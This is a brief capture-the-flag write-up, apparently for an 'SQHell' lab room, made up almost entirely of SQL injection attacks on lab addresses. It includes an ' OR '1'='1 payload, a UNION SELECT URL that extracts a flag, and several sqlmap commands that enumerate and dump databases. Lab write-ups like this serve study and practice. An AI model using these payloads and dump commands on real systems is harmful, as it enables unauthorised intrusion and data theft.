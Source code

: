 # - SQLHELL PLACE WRITEUP- #

> BEST QUOtE = ' OR '1'='1

1. flag 5 = http://10.10.159.183/post?id=3%20UNION%20SELECT%201,GROUP_CONCAT(flag),3,3%20FROM%20sqhell_5.flag

2. Login as admin 
- `sqlmap -u "http://10.10.159.183/login" --method=POST --data="username=admin&password=admin" -p "username,password" --risk=3 --level=3 --random-agent -D sqhell_2 --dump-all --threads 10`

3. Find more databases
- `sqlmap -u "http://10.10.159.183/register/user-check?username=admin2" -p "username" --risk=3 --level=3 --dbs --dbms=mysql --threads 10`
- `sqlmap -u "http://10.10.216.48/user?id=1" -p "id" --risk=3 --level=3 --dbs --threads 10`

4. Find 3 flag
- `sqlmap -u "http://10.10.159.183/register/user-check?username=admin" -p "username" --risk=3 --level=3 -D sqhell_3 --dump-all --dbms=mysql --threads 10`
- `sqlmap -u "http://10.10.159.183/post?id=2" -p "id" --risk=3 --level=3 -D sqhell_3 --dump-all --dbms=mysql --threads 10`

